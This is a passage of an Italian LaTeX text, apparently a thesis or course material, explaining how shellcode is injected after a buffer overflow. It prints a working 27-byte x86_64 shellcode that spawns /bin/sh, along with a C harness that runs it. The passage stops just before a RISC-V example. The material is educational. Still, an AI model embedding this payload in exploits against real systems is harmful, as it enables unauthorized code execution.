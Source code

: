 Una delle tecniche usate dagli attaccanti per eseguire codice arbitrario in seguito ad un buffer overflow del programma, è infatti l'utilizzo di shellcoding. In questo modo è possibile iniettare comandi assembly che verranno inseriti nello stack perché inseriti nel buffer ed eseguiti.\\
Dato che i buffer come abbiamo visto hanno dimensioni limitate, minore è la grandezza dello shellcode, più è probabile che sia efficace per il codice che l'attaccante sta cercando di manomettere. \\
Uno shellcode dipende strettamente dall'architettura che viene attaccata e quindi l'attaccante deve codificarne uno per le sue esigenze e che rispetti il codice assembly dipendente dall'ISA per cui è compilato il programma. Un' altra caratteristica restrittiva nella scrittura degli shellcode è che non devono esserci dei caratteri nulli all'interno del payload perché vengono ignorati durante l'injection.
\newline
Di seguito è presente uno shellcode di 27 bytes per architettura x86\_64 Intel che esegue \textit{/bin/sh} e quindi restituisce una shell interattiva all'attaccante.
\begin{verbatim}
#include <stdio.h>
#include <string.h>

char code[] = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97"
"\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";

int main()
{
    printf("len:%d bytes\n", strlen(code));
    (*(void(*)()) code)();
    return 0;
}

\end{verbatim}
Invece ecco un esempio di shellcode per RISC-V64 usato per fare la stessa operazione e ottenere una shell interattiva tramite la stessa funzione \textit{execve(``/bin/sh")} \cite{ShellStormRISCV}

